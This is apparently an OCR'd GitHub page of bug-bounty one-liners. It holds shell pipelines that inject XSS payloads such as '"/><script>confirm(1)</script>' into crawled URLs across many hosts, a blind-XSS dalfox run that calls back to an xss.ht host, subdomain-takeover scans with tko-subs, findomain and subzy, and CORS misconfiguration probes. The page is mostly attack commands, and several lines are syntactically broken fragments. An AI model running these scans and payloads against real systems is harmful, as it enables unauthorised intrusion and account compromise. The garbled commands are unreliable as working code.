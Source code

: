  python3 script.py testphpxss1.json '"/><script>confirm(1)</script>'            


 cat testphpxss2.json | while read host do ;do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done




cat target.json | while read host do ; do python3 paramspider.py -d $host | tee -a combined.json && python3 script.py combined.json 	 | tee -a combinedfuzz.json ;done && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done


Mass BXSS :- 

hakrawler -plain -usewayback -wayback -url testphp.vulnweb.com | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -b https://rohitgautam.xss.ht -o out.txt


tko-subs :- 


tko-subs -domains=domains.txt -data=providers-data.csv -output=output.csv






cors  :- 


site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: null" -X GET $url) | if grep 'Access-Control-Allow-Origin: null'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done


cat targets.json | while read host do ; do waybackurls | tee -a targetscors.json && curl $host -s -I -H "Origin:hacktify.in" | grep -e "hacktify.in" -e "true";done  


&& curl $host -s -I -H "Origin: hacktify.in"  | if grep 'Access-Control-Allow-Origin: hacktify.in'; then echo [Potentional CORS Found] "$url"; else echo Nothing on: "$url";fi;done 




cat appleunique.json | awk '{print $1}' | while read host do ;do findomain -t $host -r | tee -a combined.json && subzy --targets combined.json  -hide_fails -concurrency 100 | tee -a appletakeover.json;done 
&& \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done





Wayback Hacks for Automation :- 

<script>alert(1)</script>

1 :
waybackurls testphp.vulnweb.com | tee testphp1.txt |  qsreplace '"><script>confirm(1)</script>' | tee  combinedfuzz.json  && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
